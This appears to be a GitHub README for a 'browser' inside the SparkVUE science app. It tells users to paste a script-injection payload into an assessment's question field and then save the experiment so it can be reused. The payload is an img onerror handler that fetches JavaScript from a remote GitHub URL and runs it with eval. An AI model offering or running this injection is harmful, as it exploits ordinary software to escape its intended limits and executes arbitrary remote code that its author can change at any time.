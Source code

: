 # Browser
A browser for sparkvue
Instructions:
1. Open SparkVUE from your app launcher
2. Click "Build New Experiment"
3. Click the full grey box (or the split ones, it doesn't really matter)
4. Click the paper with the checkmarks, and click "Add an Assessment"
5. Choose "Multiple Choice", and paste this in the "Questions" box:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/cam0studios/browser/main/main.js").then(r => r.text()).then(c => eval(c))'>
```
For easy future use:
1. Click "save" and go to the hamburger menu
2. Hit "Save As", choose a name
3. Next time you open up SparkVUE, click "Open Saved Experiment" and click that file
